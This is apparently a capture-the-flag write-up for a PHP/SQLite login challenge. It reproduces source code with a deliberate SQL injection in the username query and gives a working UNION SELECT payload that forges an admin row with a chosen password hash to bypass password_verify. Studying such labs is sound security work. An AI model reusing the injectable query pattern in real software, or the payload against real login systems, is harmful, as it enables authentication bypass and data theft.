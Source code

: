 
## Login
Source code
```php
<?php

if (isset($_GET['source'])) {
    highlight_file(__FILE__);
    die();
}

$flag = $_ENV['FLAG'] ?? 'jctf{test_flag}';
$magic = $_ENV['MAGIC'] ?? 'aabbccdd11223344';
$db = new SQLite3('/db.sqlite3');

$username = $_POST['username'] ?? '';
$password = $_POST['password'] ?? '';
$msg = '';

if (isset($_GET[$magic])) {
    $password .= $flag;
}

if ($username && $password) {
    $res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);
    if (!$res) {
        $msg = "Invalid username or password";
    } else if (password_verify($password, $res['pwhash'])) {
        $u = htmlentities($res['username']);
        $msg = "Welcome $u! But there is no flag here :P";
        if ($res['username'] === 'admin') {
            $msg .= "<!-- magic: $magic -->";
        }
    } else {
        $msg = "Invalid username or password";
    }
}
?>
```
In the above code snippet, we can easily identify a SQL injection vulnerability in the line: `$res = $db->querySingle("SELECT username, pwhash FROM users WHERE username = '$username'", true);`.

Mypayload:
```
username=' union select 'admin' as username,'$2y$10$wwwEgLYfgMl9.o6kdmABa.PJQxv9flMyjfDhzYPfjoD5F1lHVvTtO' as pwhash--&password=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

Please refer to this article for information on SQL injection with password_verify: [SQL Injection with password_verify](https://stackoverflow.com/questions/50756182/sql-injection-with-password-verify).
